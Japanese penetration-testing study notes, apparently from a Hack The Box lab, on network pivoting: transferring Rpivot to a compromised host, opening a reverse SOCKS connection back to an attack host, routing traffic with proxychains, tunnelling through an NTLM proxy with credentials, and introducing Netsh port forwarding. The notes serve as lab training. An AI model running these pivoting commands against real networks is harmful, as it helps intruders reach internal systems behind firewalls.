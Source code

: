 SCP（セキュアコピー）を使って Rpivot をピボットホストへ転送
```sh
snowyowl644@htb[/htb]$ scp -r rpivot ubuntu@<ピボットホストのIPアドレス>:/home/ubuntu/
```
- `scp -r` → Rpivot のディレクトリ全体を転送
- `ubuntu@<ピボットホストのIPアドレス>` → ピボットホストの Ubuntu マシンに転送

ピボットターゲット（侵害したマシン）で client.py を実行
```sh
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip <ターゲットIP> --server-port 9999
```
- `--server-ip 10.10.14.18` → 攻撃ホストの IP アドレス
- `--server-port 9999` → サーバー側で待ち受けるポート
- ピボットホスト（ターゲット）が攻撃ホストへリバース接続 し、SOCKS5 プロキシを利用可能にする

接続の確認
- サーバー側で新しい接続を検出
```sh
New connection from host 10.129.202.64, source port 35226
```

127.0.0.1:9050 のローカルサーバー経由でピボットを設定
	1.	ProxyChains の設定ファイル(`/etc/proxychains.conf`)に以下を追加
```sh
socks5 127.0.0.1 9050
```

firefoxでアクセス
```sh
proxychains firefox-esr 172.16.5.135:80
```

HTTP-プロキシ & NTLM 認証を経由して Web サーバーへ接続
- 企業のネットワークでは、直接外部の攻撃ホストに接続できない場合がある。
- HTTP プロキシ（NTLM 認証付き）を経由して接続する 方法を利用できる。
```sh
python client.py --server-ip <ターゲットWebサーバーのIP> --server-port 8080 --ntlm-proxy-ip <プロキシサーバーのIP> --ntlm-proxy-port 8081 --domain <Windowsドメイン名> --username <ユーザー名> --password <パスワード>
```
- `--server-ip <ターゲットWebサーバーのIP>` → 接続先の Web サーバー
- `--server-port 8080` → Web サーバーがリスニングしているポート
- `--ntlm-proxy-ip <プロキシサーバーのIP>` → NTLM 認証を提供する HTTP プロキシの IP
- `--ntlm-proxy-port 8081` → NTLM プロキシのポート
- `--domain <Windowsドメイン名>` → Windows のドメイン名
- `--username <ユーザー名> & --password <パスワード>` → NTLM 認証情報


# Windows Netshによるポート転送
- Netsh（Network Shell） は、Windowsのネットワーク設定を管理できるコマンドラインツール

シナリオ例
- 例えば、侵害したホストが Windows 10 の IT 管理者のワークステーション（IP: 10.129.15.150, 172.16.5.25）だったとする
	- 次に、ネットワーク内でピボット（中継）して、さらに深く侵入したいとする
![](https://i.imgur.com/SowKHkn.png)
